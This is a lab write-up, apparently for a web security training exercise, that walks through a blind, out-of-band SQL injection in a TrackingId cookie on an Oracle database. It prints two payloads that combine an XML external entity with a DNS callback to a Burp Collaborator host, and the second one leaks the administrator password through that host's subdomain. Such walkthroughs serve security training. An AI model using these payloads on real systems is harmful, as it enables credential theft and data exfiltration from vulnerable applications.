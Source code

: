 # Blind SQL injection with out-of-band data exfiltration

## Description

`TrackingId` cookie which is used in a query but it's excuted async and has no effect on response however we still able to exploit `out of band SQLI`.

## Objectivie

retrieve `administrator` password from `users` table that has `username` and `password` columns

## Steps

1. First we try payloads for diffrent DB types
2. as the previous lap the oracle OAST payload worked.
   `x' SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'trohp0glz7sziff1obtoyshc83eu2zqo.oastify.com/"> %remote;]>'),'/l') FROM dual--`
   ![DNS lookup](../images/OAST-2-confirm.png)
3. Know we need to make a query to retrieve data so we can simply use `select password from users where username='administrator'` and the result will be the third level subdomain of our collaporator.
   `x' SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://''||(select password from users where username='administrator)||'.trohp0glz7sziff1obtoyshc83eu2zqo.oastify.com/"> %remote;]>'),'/l') FROM dual--`
4. so let's try it.
5. Look at thar we get's the `administrator` password
   ![DNS lookup with PW](../images/OAST-data.png)
6. Submit and that's it we solve the lap.
